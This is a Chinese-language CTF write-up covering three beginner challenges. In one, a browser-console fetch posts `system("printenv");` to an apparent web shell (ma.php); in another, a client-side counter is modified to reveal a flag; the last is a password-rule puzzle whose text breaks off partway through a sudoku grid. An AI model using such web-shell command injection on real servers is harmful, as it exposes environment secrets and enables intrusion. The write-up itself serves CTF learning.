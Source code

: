 ## 跑马场

找到 ma.php ，控制台里输入：

```js
fetch("ma.php", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded",
  },
  body: new URLSearchParams({
    lilac: 'system("printenv");',
  }),
})
  .then(response => response.text())
  .then(data => console.log(data));
```

（还是一道教学题

## 赛博上香

控制台里修改 cnt 大小，再点击 button 即可

`flag{N0w_U_kn0w_Java5cr1pt}`

## Password

按顺序逐一测试出符合条件的密码即可：

1 :密码长度必须大于等于8位

3:密码必须包含大写字母

4 :密码必须包含本次比赛主办方'Lilac'

5 :密码中数字之和必须等于27

6 :密码中必须包含特殊字符(非字母数字)

7 :密码中必须包含游戏《以撒的结合(The Binding of Isaac)》中17位可控主角之一的英文名(首字母大写)

- 咕噜咕噜一下就知道了，我直接选的 `Isaac`

9 :密码中罗马数字的乘积必须等于250

- 罗马数字共有7个，即 Ⅰ（1）、Ⅴ（5）、Ⅹ（10）、Ⅼ（50）、Ⅽ（100）、Ⅾ（500）和 Ⅿ（1000）

10 :密码中必须包含一个下图数独中放置一个 1 不会破坏数独规则的位置(不考虑死局的情况),例:a3

```
      1   2   3   4   5   6   7   8   9
    ┌───┬───┬───┬───┬───┬───┬───┬───┬───┐
 a  │ 3 │   │   │   │   │   │ 2 │   │ 4 │
    ├───┼───┼───┼───┼───┼───┼───┼───┼───┤
 b  │   │   │ 9 │   │ 6 │   │   │   │ 7 │
    ├───┼───┼───┼───┼───┼───┼───┼───┼───┤
 c  │   │ 5 │ 1 │ 4 │ 9 │   │   │   │ 3 │
    ├───┼───┼───┼───┼───┼───┼───┼───┼───┤
 d  │   │   │ 2 │   │   │ 3 │   │ 5 │   │
    ├───┼───┼───┼───┼───┼───┼───┼───┼───┤
 e  │   │ 7 │   │ 5 │   │ 9 │   │   │   │
    ├───┼───┼───┼───┼───┼───┼───┼───┼───┤
 f  │   │ 3 │   │ 1 │   │   │ 4 │ 2 │ 9 │
    ├───┼───┼───┼───┼───┼───┼───┼───┼───┤
 g  │   │   │   │ 9 │ 5 │   │ 6 │   │   │
    ├───┼───┼───┼───┼───┼───┼───┼───┼───┤
 h  │ 2 │ 9 │   │   │   │ 4 │ 1 │   │   │
    ├───┼───┼───┼───┼───┼───┼───┼───┼───┤
```